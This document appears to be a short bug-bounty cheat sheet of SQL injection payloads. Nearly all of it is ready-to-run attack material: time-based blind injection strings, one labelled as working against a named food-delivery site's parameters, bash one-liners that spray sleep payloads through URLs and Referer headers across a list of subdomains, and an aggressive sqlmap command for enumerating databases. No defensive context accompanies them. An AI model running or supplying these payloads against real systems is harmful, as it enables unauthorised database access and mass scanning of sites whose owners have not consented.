 ### SQL injections:

1) SQL injection email parameter via POST method:

   Payload:

    ```
   '%2b(select*from(select(sleep(2)))a)%2b'
    ```

2) Zomato Blind sql:
   ```
   res_id=51-CASE/**/WHEN(LENGTH(version())=10)THEN(SLEEP(6*1))END&city_id=0

   ```

3) Blind SQL onliner for domains:
```
while read -r url; do echo "Testing $url"; curl -m 20 -s -o /dev/null -w "%{time_total}\n" "$url/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z"; done < sub.txt

```

4) SQLMAP command:

   ```
   python3 sqlmap.py -r request --batch --random-agent --tamper=space2comment --level=5 --risk=3 --drop-set-cookie --threads 10 --dbs

   ```

5) Time based SQL injection:
  
      ```
      while read -r url; do echo "Testing $url"; curl -m 20 -s -o /dev/null -w "%{time_total}\n" "$url/0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z"; done < sub.txt
      ```

6) Time based SQL injection Via referer headers
   
   ```
   cat sub.txt | while read domain; do curl -s -H "Referer: http://www.google.com/search?hl=en&q='+(select*from(select(sleep(7*7)))a)+'" "$domain" | grep -q "200 OK" && echo "Vulnerable: $domain" || echo "Not Vulnerable: $domain"; done
   
```



